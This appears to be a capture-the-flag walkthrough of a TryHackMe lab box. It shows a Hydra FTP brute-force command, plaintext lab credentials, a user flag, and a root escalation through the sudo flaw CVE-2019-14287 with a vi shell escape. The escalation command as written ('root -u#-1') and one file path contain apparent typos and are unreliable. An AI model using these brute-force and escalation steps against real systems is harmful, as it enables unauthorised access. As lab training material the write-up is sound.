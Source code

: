 # Gobuster

So there's a directory /assets, and there's a file /style.css with following comment:
```css
/* Nice to see someone checking the stylesheets.
   Take a look at the page: /sup3r_s3cr3t_fl4g.php
*/
```

We need to disable JS to reach this page

Rick Roll is just Rick Roll...

Found directory `hidden_directory=/WExYY2Cv-qU` bu BURP and then picture `Hot-Babe`

Just by reading picture as text, we have our user `ftpuser` and passwords dictionary

# Hydra

```bash
hydra -l ftpuser -P passes.txt ftp://10.10.93.197
```

pass: 5iez1wGXKfPKQ

# Ftp

```bash
get Eli's_Creds.txt
```

Brainfuck language decode: 

```
User: eli

Password: DSpDiM1wAEwid
```

# SSH

Looks like we have new usernames: root and gwendoline

```bash
locate s3cr3t
cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
```
New Credentials: 
gwendoline:MniVCQVhQHUNI

```bash
cat /home/gwendoline/user.txt
```

User.txt: THM{1107174691af9ff3681d2b5bdb5740b1589bae53}

# Getting root

CVE-2019-14287

```bash
root -u#-1 /bin/vi /home/hwendoline/user.txt
```
Then in VIM:
:!/bin/sh

And now you are root